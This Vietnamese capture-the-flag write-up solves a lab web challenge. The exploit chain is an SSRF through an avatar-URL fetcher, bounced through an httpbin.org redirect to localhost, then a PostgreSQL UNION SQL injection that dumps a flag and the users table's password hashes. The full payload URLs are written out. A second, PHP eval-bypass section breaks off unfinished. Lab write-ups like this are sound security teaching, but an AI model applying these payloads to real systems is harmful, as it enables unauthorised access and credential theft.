

ở bài này khi sign up và login vào sau đó ta thấy form upload file

thử upload 1 file ảnh lên : 



check request and response



sau khi upload thành công nó chuyển chúng ta đến endpoint chứa ảnh đó 



câu hỏi đặt ra ở đây là liệu có dính file upload không, chúng ta đã test tất cả trường hợp nhưng chỉ có 1 trường hợp dính là fake mimetype, 

sau đó upload đuôi php với chèn thêm mã độc và nội dung file.

chúng ta đã upload thành công, và vào file với đuôi đó để có thể rce nhưng chúng ta không thể.

vậy có thể bỏ qua hướng file upload này và chúng ta đi kiếm thêm chức năng khác của ứng dụng này:

mình đã thử `ffuf` để lấy các path ẩn:



chúng ta thấy path `admin` nhưng 403 chúng ta không có quyền.

vậy có thể vào được path này không 

chúng ta tiếp tục nhận thấy có chức năng avatar url tức là quăng link vào đây nó tự gửi request tới lấy tấm ảnh về



dễ dàng dự đoán nó sẽ dùng hàm `file_get_contents`, chúng ta sẽ tận dụng `SSRF` để đặt 1 chân vào mạng nội bộ và truy cập path `admin`

thử các định dạng ta đã biết

https//localhost/

chúng ta có thể thay ip address bằng decimal hoặc hex.

 => tương đương 

đối với hex

0x7f000001/ => tương đương  
tiếc là vẫn không nhận được gì

qua tới URI schemes()

thử file://etc/passwd



thử rất nhiều nhưng có vẻ nó không giúp được gì

thử quăn 1 ip trang web bất kì 

nó nhận ip này tức là các ip public thì nó nhận

vậy ta sẽ gửi 1 ip public sau đó nó sẽ trả về nội dung trang đó dưới dạng base64



sẽ ra sao nếu như ta gửi 1 ip public sau đó trên con ip public đó cho nó redirect tới `http://localhost/`  

dùng chính cái 



```text
http://httpbin.org/redirect-to?url=//webhook.site/0e2c8d5e-e8f0-41b3-b169-a3ae6d4c0c93
```

test cho nó redirect tới webhook



=> đã hoạt động vậy thử cho nó redirect tới chính nó 

chúng ta thành công SSRF và vào path admin mà nãy chúng ta đã `ffuf` 



tiếp theo test thanh search của `admin` và xem mã nguồn chúng ta sẽ thấy 



tức là nó có key là search

thử 
không ra gì cả 



tiếp tục dùng ‘ và “ check sqli



nó không ra gì cả có thể là nó dính lỗi 500 hay gì đó nên không trả về 



“ không tìm thấy mà ‘ không trả bất cứ gì => dính SQLi

tiếp tục kiểm tra câu truy vấn gốc bằng ORDER BY 1– 

check từ 1 tới 6 mà cái thứ 7 nó lỗi

encode lần khi gửi sẽ là:

gắn vào thanh search đoạn : 

```text
http://localhost/admin?search=test'ORDER BY 7--
```



đây là order by 7–



7 lỗi => có 6 cột trong truy vấn gốc tiếp đến tìm hệ quản trị csdl gì : 



```text
http://httpbin.org/redirect-to?url=http://localhost/admin?search=test'%2520UNION%2520SELECT%2520NULL,NULL,VERSION(),NULL,NULL,NULL--%2520
```

=> `postgreSQL`

tra `database` đang use

```text
http://httpbin.org/redirect-to?url=http://127.0.0.1/admin?search=test'%2520UNION%2520SELECT%2520NULL,NULL,current_database(),NULL,NULL,NULL--%2520
```

 



=>`imagefetcher`

tra `table` ở `postgreSQL` cái database hiện tại 

```text
http://httpbin.org/redirect-to?url=http://127.0.0.1/admin?search=test'%2520UNION%2520SELECT%2520NULL,NULL,table_name,NULL,NULL,NULL%2520FROM%2520information_schema.tables%2520WHERE%2520table_schema%2520%3d%2520'public'--%2520
```



 

tra trong cột trong bảng `mystery` 

ta được các cột name id value

```text
http://httpbin.org/redirect-to?url=http://127.0.0.1/admin?search=test'%2520UNION%2520SELECT%2520NULL,NULL,column_name,NULL,NULL,NULL%2520FROM%2520information_schema.columns%2520WHERE%2520table_name%2520%3d%2520'mystery'--%2520
```



dump thông tin ra 

```text
http://httpbin.org/redirect-to?url=http://127.0.0.1/admin?search=test'%2520UNION%2520SELECT%2520NULL,NULL,concat_ws(%2527%2520|%2520%2527,name,id,value),NULL,NULL,NULL%2520FROM%2520mystery--%2520
```



flag: FLAG | 1 | `CBJS{g3t_Deep3r_1nt0_Myst3ry_b0x}`

qua phần egg:
ta tra kĩ hơn trong bảng users
ta được các cột : `name` , `id` ,`password_hash`, `avatar_name`,`email`,    `created_at`

dump các cột này ra ta được egg

```text
http://httpbin.org/redirect-to?url=http://127.0.0.1/admin?search=test'%2520UNION%2520SELECT%2520NULL,NULL,concat_ws(%2527%2520|%2520%2527,name,id,password_hash,avatar_name,email,created_at),NULL,NULL,NULL%2520FROM%2520users--%2520
```



EGG: `EGG{W3_are_H3R3_t0_g3t_m0r3_d4t4_fr0m_y0u}`

# WEEK 2

## PHP Lixi


src code đơn giản là 


để debug dễ hiểu src code trên hơn mình viết lại như sau


tách riêng ra để dễ coi mình bị rơi vào cái regex nào

cái regex ở if thứ 11 chặn nếu `chuỗi 4 kí tự và từ a-z A-z 0-9`

cái regex thứ 2 nếu nhập vào 1 trong các kí tự : `[, ", ', |, ^, ~, hoặc .` 

đoạn thứ 7 nếu như mình nhập vào key = 👉🏻 và value = 👌🏻 chúng ta sẽ được chuyển hướng qua `phpinfo`  


kiếm kỹ trong đây ta được egg 


`EGG{39bde2dbc52c36f90fd49ba30b573b70}` 

tiếp tục phân tích code


ở dòng số 8 ban đầu mình tưởng biến `$_` lúc nào cũng được gán `$_GET[‘’]` 

mà `$_GET[‘’]` lúc nào cũng là NULL nên dù có nhập gì cũng null 
nhưng kĩ lại 1 chút, mình copy `$_GET['⁣']`

 từ src của trang và quăn vào cyber chef


nhìn kĩ ở giữa ‘’ là 27 hex sẽ có thêm 1 đoạn ở giữa nữa 

còn nếu kí tự thường `$_GET[‘’]`


giữa 27 tức là ‘’ không có gì hết tức là kí tự thông thường

nên đúng thì nó phải như vậy `$_GET['%e2%81%a3']`

URL encode dựa vào hex để thêm % vào trước nên ta tận dụng e2 81 a3 thành `%e2%81%a3`


vậy dòng 8 sẽ lấy value của cái key e2 81 a3 và gán cho `$_`

coi debug nhé


mình vừa nhập vào 1 thì cái `_$` của đoạn vardump là 1

vậy payload của ta sẽ là value của cái key e2 81 a3

bây giờ nhiệm vụ của ta là vượt qua 2 hàm if và cho payload vào eval

thử test bằng `die` vì `die()` chỉ có 3 chữ vượt qua if đầu và () vượt qua if 2

